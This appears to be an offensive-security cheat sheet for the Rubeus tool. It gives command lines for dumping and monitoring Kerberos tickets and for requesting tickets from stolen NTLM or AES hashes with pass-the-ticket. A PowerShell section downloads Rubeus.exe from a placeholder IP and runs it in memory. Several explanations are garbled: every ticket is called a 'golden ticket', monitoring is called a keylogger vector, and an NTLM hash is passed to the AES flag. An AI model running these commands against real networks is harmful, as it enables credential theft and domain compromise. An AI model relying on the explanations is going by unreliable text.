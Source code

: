 # 02 - Rubeus

## 2.1 - Basic Commands

List golden tickets that are being used

`C:\> Rubeus.exe klist`

A much nicer way to see the golden tickets when using `triage` flag

`C:\> Rubeus.exe triage`

Dump the golden tickets base64 encoded

`C:\> Rubeus.exe dump /nowrap`

Monitors the number of golden ticket sessions for every 10 seconds this is useful as a keylogger vector

```
C:\> Rubeus.exe monitor /interval:10 /nowrap

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain_name> /rc4:<ntlm_hash> /ptt

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain_name> /aes256:<ntlm_hash> /createnetonly:C:\Windows\system32\cmd.exe /ptt
```

## 2.2 - Download and Execute

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```